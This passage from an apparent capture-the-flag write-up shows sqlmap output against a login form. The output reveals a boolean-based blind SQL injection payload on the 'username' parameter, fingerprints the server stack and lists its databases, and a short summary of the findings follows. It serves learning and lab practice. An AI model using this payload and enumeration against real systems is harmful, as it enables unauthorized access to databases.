 ```
[15:10:24] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[15:10:28] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[15:10:31] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[15:10:35] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[15:10:39] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[15:10:43] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[15:10:47] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[15:10:51] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[15:10:54] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[15:10:54] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 854 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-8955' OR 2657=2657#&password=blah
---
[15:11:02] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[15:11:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL Unknown
[15:11:02] [INFO] fetching database names
[15:11:02] [INFO] fetching number of databases
[15:11:02] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:11:02] [INFO] retrieved: 5
[15:11:04] [INFO] retrieved: information_schema
[15:11:38] [INFO] retrieved: cartographer
[15:12:01] [INFO] retrieved: mysql
[15:12:10] [INFO] retrieved: performance_schema
[15:12:44] [INFO] retrieved: sys
available databases [5]:
[*] cartographer
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[15:12:51] [INFO] fetched data logged to text files under '/home/fortyfunbobby/.sqlmap/output/88.198.233.174'

[*] shutting down at 15:12:51
```

So we found out that:

```
1. POST parameter `username` is vulnerable.
2. Backend DBMS is `MySQL`
3. Web Server OS is Linux Ubuntu 16.04 (xenial)
4. Web Server is Apache 2.4.18 
5. 5 DBs found: a. cartographer, b. information_schema, c. mysql, d. performance_schema, e. sys
```
